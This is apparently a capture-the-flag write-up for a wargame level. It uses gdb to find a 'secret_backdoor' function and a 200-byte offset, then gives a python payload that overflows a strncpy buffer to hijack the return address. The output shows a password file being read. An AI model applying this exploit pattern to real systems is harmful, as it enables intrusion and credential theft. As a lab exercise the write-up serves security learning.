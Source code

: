 We get the binary out of the Vm using this cmd:

`scp -P 4242 level09@192.168.56.103:./level09 .binary/level09`

We can exploit `strncpy` and replace eip with the function `secret_backdoor`

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor

secret_backdoor() address : 0x000055555555488c
```

find offset
```
(gdb) b *handle_msg+95
Breakpoint 1 at 0x91f
(gdb) run
(gdb) i f
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x55555555491f in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
(gdb) x/x $rdi
0x7fffffffe500: 0x0000000a
```
0x7fffffffe5c8 - 0x7fffffffe500 = c8 (200 in decimal)

```
python -c 'print "\x41" * 40 + "\xd0" + "\n" + "\x41" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
And voilà !